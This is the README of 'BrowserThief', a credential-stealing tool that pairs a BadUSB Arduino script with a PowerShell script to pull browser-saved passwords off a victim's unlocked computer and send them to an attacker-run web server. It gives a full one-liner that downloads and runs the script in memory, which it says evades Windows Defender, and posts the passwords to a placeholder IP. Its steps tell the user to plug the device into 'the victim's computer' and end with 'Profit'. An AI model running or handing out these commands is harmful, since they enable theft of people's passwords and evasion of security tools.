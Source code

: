 # BrowserThief
Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. 
<br/><br/>
## Features
- The powershell script can be run in-memory without writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```
<br/><br/>
## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰
<br/><br/>
## PoC



<br/><br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project
